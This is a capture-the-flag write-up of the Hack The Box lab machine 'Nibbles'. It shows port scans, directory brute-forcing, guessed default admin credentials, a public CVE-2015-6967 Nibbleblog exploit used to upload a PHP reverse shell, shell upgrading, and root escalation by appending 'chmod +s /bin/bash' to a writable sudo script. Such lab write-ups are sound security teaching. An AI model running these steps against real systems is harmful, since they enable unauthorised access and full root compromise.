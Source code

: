 ```yaml
---
title: "HTB Nibbles"
date: 2022-12-18T19:22:03-05:00
draft: false
---
```


#### Initial nmap
```bash
sudo nmap -p- -T5 $IP

Nmap scan report for 10.129.30.217
Host is up (0.041s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

#### Concentrated nmap

```bash
sudo nmap -p 22,80 -A -T5 $IP

Nmap scan report for 10.129.30.217
Host is up (0.042s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4f8ade8f80477decf150d630a187e49 (RSA)
|   256 228fb197bf0f1708fc7e2c8fe9773a48 (ECDSA)
|_  256 e6ac27a3b5a9f1123c34a55d5beb3de9 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.18 (Ubuntu)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.12 (95%), Linux 3.13 (95%), Linux 3.2 - 4.9 (95%), Linux 3.8 - 3.11 (95%), Linux 4.8 (95%), Linux 4.4 (95%), Linux 3.16 (95%), Linux 3.18 (95%), Linux 4.2 (95%), ASUS RT-N56U WAP (Linux 3.4) (95%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 22/tcp)
HOP RTT      ADDRESS
1   42.51 ms 10.10.14.1
2   42.63 ms 10.129.30.217
```

#### Port 80 - 

It looks like a static webpage

{{< image src="/static/static_page.png" alt="Error3" position="center" style="border-radius: 8px;" >}}

Since there are only two ports open I will run gobuster and see if I can find any directories that may be on the site.

{{< image src="/static/gobuster_1.png" alt="Error3" position="center" style="border-radius: 8px;" >}}

No luck with directory brute-forcing, but if I check the source of the webpage we get a bit of a hint.

{{< image src="/static/view_source.png" alt="Error3" position="center" style="border-radius: 8px;" >}}

If i navigate to the webpage `http://$IP/nibbleblog/` it looks like a blog page.

{{< image src="/static/nibbles_blog.png" alt="Error3" position="center" style="border-radius: 8px;" >}}

Using gobuster we can look for subdirectories inside /nibbleblog/ 

{{< image src="/static/gobuster_2.png" alt="Error3" position="center" style="border-radius: 8px;" >}}

Navigating to the readme file at `http://$IP/nibbleblog/README`

we can see the version the blog is running

{{< image src="/static/nibbles_version.png" alt="Error3" position="center" style="border-radius: 8px;" >}}

After doing some research on google, I found there is a RCE on this version of nibbleblog, but we need to be authenticated. 

I will try default credentials i.e. `admin:admin` etc.

after doing this for a bit I tried `admin:nibbles` and it was successful! Now we can move forward with the RCE.

#### RCE - 

I will be using this script from github (https://github.com/dix0nym/CVE-2015-6967) combined with the php reverse shell which can be found here (https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php)

when you setup the php reverse shell be sure to edit the file and add your IP & port that you will be listening on.

{{< image src="/static/php_revshell.png" alt="Error3" position="center" style="border-radius: 8px;" >}}

Once finished you can proceed with these steps

```bash
git clone https://github.com/dix0nym/CVE-2015-6967.git
```

```bash
chmod +x exploit.py
```

```bash
python3 exploit.py --url http://10.129.30.217/nibbleblog/ --username admin --password nibbles --payload shell.php
```

After running the script check your reverse shell and you should see the following - 

{{< image src="/static/nc_shell.png" alt="Error3" position="center" style="border-radius: 8px;" >}}

Upgrading our shell (make the reverse shell more stable)

```bash
which python3

/usr/bin/python3
```

Great, we can use python3 to upgrade our shell

```python
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

after running you should see this - 

{{< image src="/static/shell_upgrade1.png" alt="Error3" position="center" style="border-radius: 8px;" >}}

Now we can make it even better with the following - 

```
ctrl+z (this will drop you into your host/vm terminal)
```

When in your host shell 

```bash
stty raw -echo ; fg (Hit enter, nothing will happen, but hit enter again and you will be back into the shell as nibbler@Nibbles)
```

{{< image src="/static/shell_upgrade2.png" alt="Error100" position="center" style="border-radius: 8px;" >}}

Next we can export TERM 

```bash 
export TERM=xterm-256color
```

#### PrivEsc

As the user nibbler we can run a script using sudo 

{{< image src="/static/sudo_privs.png" alt="Error3" position="center" style="border-radius: 8px;" >}}

the files are zipped up but we can fix that.

```bash
unzip personal.zip
```

```bash
cd personal/stuff
```

```bash
ls -la 

drwxr-xr-x 2 nibbler nibbler 4096 Dec 10  2017 .
drwxr-xr-x 3 nibbler nibbler 4096 Dec 10  2017 ..
-rwxrwxrwx 1 nibbler nibbler 4015 May  8  2015 monitor.sh
```

We can write to this file, so lets add something we can abuse to gain root access!

```bash
echo "chmod +s /bin/bash" >> monitor.sh
```

execute the script as sudo 

```bash
sudo /home/nibbler/personal/stuff/monitor.sh
```

this should set the bash binary to has a SUID bit set this will allow us to execute bash as root. We can do this with the following command.

```bash
bash -p
```

After running that you should see this - 

{{< image src="/static/suid_abuse.png" alt="Error3" position="center" style="border-radius: 8px;" >}}

and if you run whoami it will say `root`

you can gather the flags from the user & root directory.


